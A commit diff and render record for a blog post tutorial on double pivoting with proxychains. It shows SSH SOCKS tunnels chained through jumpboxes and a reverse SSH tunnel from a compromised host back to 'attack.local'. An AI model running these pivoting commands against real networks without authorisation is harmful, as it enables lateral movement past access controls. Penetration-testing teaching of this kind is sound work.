

Before and after one commit to mcorybillington/mcorybillington.github.io, a Jekyll site: the page built from _posts/2020-03-07-Proxychains-Double-Pivoting.md, in a window 1280 px wide and 1400 px high, scrolled down 3666 px, cut to the strip 0-1261 px from the top of the window. Shown: the whole strip at 97% size, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-07-Proxychains-Double-Pivoting.md
Added hostnames to code snippets for each command so it's easier to follow

`````diff
--- a/_posts/2020-03-07-Proxychains-Double-Pivoting.md
+++ b/_posts/2020-03-07-Proxychains-Double-Pivoting.md
@@ -59,7 +59,7 @@ socks4  127.0.0.1 8888
 Once this is in place, you can use the following command to execute commands through the tunnel, and the requests will be performed by `jumpbox1.local`.
 
 ```
-proxychains4 -f ~/new-proxychains.conf curl http://jumpbox2.local
+they@attack.local:~$ proxychains4 -f ~/new-proxychains.conf ssh jumpbox2.local
 ```
 
 ## But we still can't talk to `destbox.local` ?
@@ -69,7 +69,7 @@ they@attack.local:~$ ssh user@jumpbox1.local 'ssh -f -N -D 127.0.0.1:9999 user@j
 
 OR (as in video), just ssh to jumpbox1.local and run:
 
-ssh -f -N -D 127.0.0.1:9999 user@jumpbox2.local
+they@jumpbox1.local:~$ ssh -f -N -D 127.0.0.1:9999 user@jumpbox2.local
 ```
 And modify our `new-proxychains.conf` file to include the newly created tunnel/proxy between `jumpbox1.local` and `jumpbox2.local`
 ```
@@ -87,7 +87,7 @@ socks4  127.0.0.1 9999
 ```
 Now, try again...
 ```
-proxychains4 -f ~/new-proxychains.conf curl http://destbox.local
+they@attack.local:~$ proxychains4 -f ~/new-proxychains.conf curl http://destbox.local
 ```
 And voila! We can talk to `destbox.local` through two tunnels/proxies.
 
@@ -103,15 +103,15 @@ So you have a shell on a box, but can't hit ssh on it? Pretty common as web serv
 You'll want to start an ssh server on your box, probably with `systemctl start sshd` and then I'd `cat ~/.ssh/*.pub` on `jumpbox1` and add that to whatever `ssh` user you plan to use (not a bad idea to create a separate user for this and [restrict accordingly to just tunnels](https://unix.stackexchange.com/a/14313), but you do you...)
 Once that is complete, from the jumpbox, you'll run
 ```
-ssh -f -N -R 2222:127.0.0.1:22 <you>@attack.local
+they@jumpbox1.local:~$ ssh -f -N -R 2222:127.0.0.1:22 <you>@attack.local
 ```
 Now, hop back to your attack box and run `ss -tlpn | grep 2222` and you should see the new listening port on 127.0.0.1. Now, just create your initial SOCKS proxy through that new tunnel (or use it to ssh into wordpress directly from your machine)
 ```
-ssh -f -N -D 127.0.0.1:8888 <jumpbox1-user>@127.0.0.1 -p 2222
+they@attack.local:~$ ssh -f -N -D 127.0.0.1:8888 <jumpbox1-user>@127.0.0.1 -p 2222
 ````
 Or, if you want a oneliner that can do it all from `jumpbox1.local`
 ```
-ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -f -N -D 8888 127.0.0.1 -p 2222"
+they@jumpbox1.local:~$ ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -f -N -D 8888 127.0.0.1 -p 2222"
 ```
 And magic happens...
 
`````
